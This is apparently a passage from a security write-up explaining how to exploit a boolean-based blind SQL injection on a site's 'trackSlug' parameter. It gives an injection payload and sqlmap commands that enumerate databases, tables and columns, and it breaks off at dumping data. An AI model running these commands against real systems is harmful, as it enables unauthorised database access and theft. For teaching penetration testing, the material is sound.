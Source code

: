 ![]({{ site.url }}/assets/geeks4geeks/binary/f-char.png)

### 4. Using SQLMap 

It's better to use sqlmap if it works well; otherwise you may want to exploit sql injections manually. 
Sometimes sqlmap doesn't help on some cases; this is why you may want to know how manual exploitation works.

**Let's use sqlmap more effective way:**

1) We know our payload works like that:

```sql
PC-W1-I59391638' or length(database())=1# 
```

So that we may want to use these parameters: --prefix="' " --suffix=" # asd".

2) --technique=B (we have already known that our vulnerability is boolean based) 

3) -r request.txt I copied the request from burp's repeater and saved into request.txt

4) We also know that our database is MySQL  --dbms=mysql

5) -p we know which parameter is vulnerable: -p "trackSlug"

6) -v is for level of verbosity, 4 is nice for me.

7) --threads 10 which helps to make multiple requests at the same time

8) --code=200, HTTP code when query is True. 

9) --batch for instead of waiting for the user’s input.

You can use your own sql query with "--sql-query" option if you want.


Let's dump list of databases:

`sqlmap -r request.txt --prefix="' " --suffix=' # asd' --technique=B --dbms=mysql --batch --code=200 --threads 10 -v 4 -p "trackSlug" --dbs`


List of tables:

`sqlmap -r request.txt --prefix="' " --suffix=' # asd' --technique=B --dbms=mysql --batch --code=200 --threads 10 -v 4 -p "trackSlug" -D gf**** --tables `


![]({{ site.url }}/assets/geeks4geeks/sqlmap/1.png)


Let's look into the "The_Table_Name" table: 

`sqlmap -r request.txt --prefix="' " --suffix=' # asd' --technique=B --dbms=mysql --batch --code=200 --threads 10 -v 4 -p "trackSlug" -D gf**** -T The_Table_Name --columns`

![]({{ site.url }}/assets/geeks4geeks/sqlmap/3.png)

Dumping data from specialized column:

